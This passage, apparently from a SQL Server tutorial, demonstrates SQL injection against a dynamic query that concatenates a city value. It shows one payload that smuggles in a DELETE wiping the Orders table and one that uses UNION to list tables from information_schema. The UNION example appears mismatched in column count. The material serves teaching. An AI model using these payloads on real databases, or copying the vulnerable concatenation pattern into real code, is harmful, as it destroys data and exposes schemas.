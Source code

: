 **Step 5: Practice Running SQL Injections (For Educational Purposes Only)**

#### Example F: Check Initial Data

Before running SQL injection examples, verify the number of records in the `Orders` table:

```sql
SELECT COUNT(*) FROM [dbo].[Orders];
```

**Result**: Assume it returns 21 records.

#### Example G: Malicious DELETE Attack

```sql
DECLARE @City AS nvarchar(200);
SET @City = 'Colchester''; DELETE FROM [dbo].[Orders]; --';
DECLARE @sql AS nvarchar(max);
SET @sql = '
SELECT
    o.OrderID,
    o.CustomerID,
    c.CompanyName,
    o.OrderDate,
    o.ShipCity
FROM [dbo].[Orders] o
INNER JOIN [dbo].[Customers] c
    ON o.CustomerID = c.CustomerID
WHERE o.ShipCity = ''' + @City + '''';
PRINT @sql;
EXEC (@sql);
```

**Result: CATASTROPHIC**\
This query deletes all records from the `Orders` table due to the injected `DELETE` statement.

#### Example H: Data Extraction Attack

```sql
DECLARE @City AS nvarchar(200);
SET @City = 'Colchester'' AND 1=2 UNION SELECT table_schema, table_name, ''1'' FROM information_schema.tables; --';
DECLARE @sql AS nvarchar(max);
SET @sql = '
SELECT
    o.OrderID,
    o.CustomerID,
    c.CompanyName,
    o.OrderDate,
    o.ShipCity
FROM [dbo].[Orders] o
INNER JOIN [dbo].[Customers] c
    ON o.CustomerID = c.CustomerID
WHERE o.ShipCity = ''' + @City + '''';
PRINT @sql;
EXEC (@sql);
```
